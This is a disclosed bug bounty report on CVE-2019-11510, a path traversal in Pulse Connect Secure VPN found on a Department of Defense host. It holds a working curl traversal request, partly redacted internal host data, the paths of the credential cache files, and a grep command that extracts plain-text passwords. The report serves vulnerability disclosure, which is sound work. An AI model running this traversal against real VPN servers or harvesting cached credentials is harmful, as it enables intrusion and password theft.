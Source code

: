 # [CVE-2019-11510 ] Path Traversal on ████████ leads to leaked passwords, RCE, etc

## Report Details
- **Report ID**: 671857
- **URL**: https://hackerone.com/reports/671857
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-08-12T18:42:25.773Z
- **Disclosed**: 2019-12-02T19:46:35.033Z

## Reporter
- **Username**: cdl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary / Description:**
█████ is vulnerable to Path Traversal which can lead to remote code execution.




## Impact
Critical

## Step-by-step Reproduction Instructions

1. Run the following `cURL` command to get the file `/etc/hosts`

```
curl --path-as-is -k -D- 'https://███████/dana-na/../dana/html5acc/guacamole/../../../../../../etc/hosts?/dana/html5acc/guacamole/#'
```


```
## File generated by DSNet::Hosts::update at Thu Aug  1 13:24:40 2019

127.0.0.1	localhost
█████128.141	KMPC1_Node4
█████████252.82	acrcxznxx07d-10███
███████252.74	acrcxznxx06d-10███
███252.67	ODA-SCAN███
█████████252.65	ODA-VIP-1█████████
█████████252.63	ODA-1██████
███252.196	subversion████████
██████252.134	acrcxznxx07d-12██████
██████████252.13	ODA-2████
█████251.16	acdeva0xxb5l010███
████251.15	acdeva0xxb5l009████████
███████251.14	acdeva0xxb5l008████████
█████████250.239	devikrome█████
███████250.216	ws.soa██████
██████████250.192	ac0hxzndb01d-07.rsn.aac████
█████████250.16	devccimm███
██████250.112	devauth████████l devauth████████
████████250.104	ac0hxznap02d-03████████
███████1.235	spex████████
████1.205	auth████████
███1.164	internal████ internal███████
████1.142	ensq██████████ ensq█████
███████0.92	ac0hqa0xxa3b021.rsn.aac█████████
███0.55	g2g███
█████████0.177	Ac0hqa0xxa1b005.rsn.aac█████████
█████64.181	ac0hqsmap13p
████64.142	ac0hqsmxx03p
██████████40.237	emmggb████████
████████40.126	ac0hqapxx25p.rsn.aac████████
██████████221.42	gcrcknox gcrcknox████
█████████220.81	ft1ariss█████
██████220.245	ccimm█████████
██████220.150	ensqrtn████
███████220.145	pthensqtrain██████
██████212.9	acrcea0xxb5l035█████
██████212.64	acrcea0xxb5l034██████
███18.60	questcentral questcentral███
██████████163.35	hrcremedy█████
███████78.107	afrissimt.rs████
██████8.61	netscout███████
████████205.203	ac0hqa0xxb5l007█████
█████████205.202	ac0hqa0xxb5l006██████████
██████205.200	acrtna0xxb5l003█████
███146.8	AC0HQC2A0A3B021.RSN.AAC████████
█████████146.7	AC0HQC2A0A3B020.rsn.aac████████
█████████145.91	ac0hqwsxx04p.rsn.aac█████
█████145.149	caliber11.rsn.aac███████
████145.118	ac0hqwsap06p.rsn.aac██████████
██████144.95	ikrome████ ft1ikrome█████████
████144.91	Auth██████████
█████144.216	ac0hqc2a0a3b010.rsn.aac██████
████197.16	acft1a0xxb5l005███████
███197.15	acft1a0xxb5l004███
████196.62	ft1ccimm██████████
█████████196.28	ft1auth████
███████195.247	ac0hldbxx02t████
███195.246	ac0hldbxx01t█████
████195.195	ac0hxzndb04t-01████
██████195.188	ac0hxznap04t-03█████████
██████████195.158	ac0hxznxx24t-02██████
██████████195.133	ft1internal████████
████████195.127	ac0hxznap03t-03█████████
██████████194.78	ws13t.soa█████ ws14t.soa█████
█████████194.165	ft1ensq███ ac0hxznxx03t-08-ensq_wls1█████████
█████194.119	rmdwebtopft1███████
```


We can grab any other file on this system:

```
/data/runtime/mtmp/system
/data/runtime/mtmp/lmdb/dataa/data.mdb
/data/runtime/mtmp/lmdb/dataa/lock.mdb
/data/runtime/mtmp/lmdb/randomVal/data.mdb
/data/runtime/mtmp/lmdb/randomVal/lock.mdb
```

The VPN user and hashed passwords are stored in the `mtmp/system` file, but when users log into the application, it caches the plain-text password into `dataa/data.mdb`. 

```
grep 'password@9' data.mdb -a
```

will get you a load of plain-text passwords

████████

## Product, Version, and Configuration (If applicable)
https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44101

## Suggested Mitigation/Remediation Actions
Update the Pulse Connect Secure VPN

## Impact

Critical, an attacker can get code execution with this vulnerability.

## References:
https://hackerone.com/reports/591295

Thanks,
Corben (@cdl)

## Attachments
No attachments
